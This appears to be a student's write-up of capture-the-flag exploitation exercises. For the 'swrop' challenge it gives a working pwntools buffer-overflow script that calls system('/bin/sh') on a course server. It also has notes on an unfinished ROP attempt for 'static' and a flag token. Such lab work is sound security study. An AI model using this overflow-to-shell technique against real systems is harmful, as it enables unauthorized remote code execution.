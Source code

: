 z5256275 Lachlan Waugh
==========================================================

swrop
==========================================================
Flag:
----------------------------------------------------------
    FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNi1zd3JvcCIsImlwIjoiMTAxLjE2NC4zMy4yMTkiLCJzZXNzaW9uIjoiZGRmZGFlODAtNDNkZi00NjU2LWFhNjItYTJjOGYyZjdlYWM5In0.gYrTvPGNX_vt--Uu4q8QU3dje7Nb3HPxbk6DRx-HNzQ}

General overview:
----------------------------------------------------------
1. The function not_call() invokes system("bin/date")
2. The address right after "bin/date" stores "bin/sh"
2. Invoke the system() part of not_call(), and write the address for bin/sh onto the stack

Script used:
----------------------------------------------------------

```python
#!usr/bin/env python2

from pwn import *

p = remote("plsdonthaq.me", 6001)

payload = b"A" * 0x88
payload += p32(0x080484ed)  # address for system() in not_call()
payload += p32(0x080485f0)  # address for bin/sh

p.sendlineafter(">", payload)

p.interactive()
```


static
==========================================================
Flag:
----------------------------------------------------------
    FLAG{}

General overview:
----------------------------------------------------------
TODO: WRITEUP SOLUTION
1. I thought I was pretty close to completing this exericse, however I wasn't able to crack it, my understanding was that i'd need to achieve a few things
    * have eax stored 0xb (the code for execve)
    * have ecx, edx, and esi point to NULL
    * write "bin/sh\0" to some buffer and point ebx to this buffer
2. I was able to achieve the first two using the provided gadgets, however I couldn't work out how to where to write "bin/sh" to
3. My first attepmt (commented) was trying to write it to a memory location and point ebx to that memory location.
4. My second attempt (not commented) was trying to write it onto the stack and have pop this into ebx, but this wasn't working either unfortunately.
